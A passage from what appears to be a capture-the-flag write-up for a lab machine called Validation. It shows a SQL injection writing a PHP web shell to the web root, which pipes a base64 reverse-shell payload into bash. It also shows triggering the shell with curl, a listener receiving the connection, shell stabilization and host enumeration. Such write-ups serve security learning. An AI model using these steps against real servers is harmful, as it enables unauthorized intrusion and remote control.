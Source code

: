 Let's use our script to write our payload into a `revshell.php` file:

```sql
> SELECT "<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>" INTO outfile "/var/www/html/revshell.php"
```

Now let's trigger our payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.116/revshell.php"
```

If we check our listener:

```
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.116] 55896
<SNIP>
www-data@validation:/var/www/html$
```

It caught the reverse shell!

### Stabilizing the shell

I'll use this one-liner to stabilize a bit the shell by spawning a tty:

```sh
script "/dev/null" -qc "/bin/bash"
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is Validation's architecture?

```sh
www-data@validation:/var/www/html$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Validation is using.

```sh
www-data@validation:/var/www/html$ cat "/etc/os-release"
```

```
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
